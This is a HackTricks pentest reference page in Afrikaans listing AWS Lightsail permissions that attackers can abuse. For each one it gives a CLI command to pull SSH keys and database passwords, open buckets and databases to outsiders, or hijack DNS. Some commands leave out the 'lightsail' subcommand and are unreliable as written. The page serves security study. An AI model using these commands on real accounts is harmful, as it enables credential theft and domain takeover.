 # AWS - Lightsail Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Vir meer inligting oor Lightsail kyk:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Dit is belangrik om te noem dat Lightsail **nie IAM rolle wat aan die gebruiker behoort gebruik nie** maar aan 'n AWS bestuurde rekening, so jy kan nie hierdie diens misbruik om privesc te doen nie. Tog, **sensitiewe data** soos kode, API sleutels en databasis inligting kan in hierdie diens gevind word.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Hierdie toestemming sal jou toelaat om die SSH sleutels te verkry om toegang tot die instansies te kry:
```
aws lightsail download-default-key-pair
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:GetInstanceAccessDetails`

Hierdie toestemming sal jou toelaat om SSH-sleutels te genereer om toegang tot die instansies te verkry:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die instansies.

### `lightsail:CreateBucketAccessKey`

Hierdie toestemming sal jou toelaat om 'n sleutel te verkry om toegang tot die emmer te verkry:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die emmer.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Hierdie toestemming sal jou toelaat om die geloofsbriewe te verkry om toegang tot die databasis te verkry:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:UpdateRelationalDatabase`

Hierdie toestemming sal jou toelaat om die wagwoord te verander om toegang tot die databasis te verkry:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

As die databasis nie publiek is nie, kan jy dit ook publiek maak met hierdie toestemmings met

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasis.

### `lightsail:OpenInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet te open.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:PutInstancePublicPorts`

Hierdie toestemming laat toe om poorte na die Internet te open. Let daarop dat die oproep enige poort wat nie daarop gespesifiseer is nie, sal sluit.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potensiële Impak:** Toegang tot sensitiewe poorte.

### `lightsail:SetResourceAccessForBucket`

Hierdie toestemming laat toe om 'n instansie toegang tot 'n emmer te gee sonder enige ekstra akrediteerbare. 

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateBucket`

Met hierdie toestemming kan 'n aanvaller sy eie AWS-rekening leestoegang oor emmers verleen of selfs die emmers publiek maak vir almal:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potensiële Impak:** Potensiële nuwe toegang tot emmers met sensitiewe inligting.

### `lightsail:UpdateContainerService`

Met hierdie toestemmings kan 'n aanvaller toegang tot privaat ECR's van die houerdiens verleen.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potensiële Impak:** Kry sensitiewe inligting van private ECR

### `lightsail:CreateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorneem), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

### `lightsail:UpdateDomainEntry`

'n Aanvaller met hierdie toestemming kan 'n subdomein skep en dit na sy eie IP-adres wys (subdomein oorname), of 'n SPF-record opstel wat hom toelaat om e-posse van die domein te vervals, of selfs die hoofdomein na sy eie IP-adres stel.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potensiële Impak:** Neem 'n domein oor

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
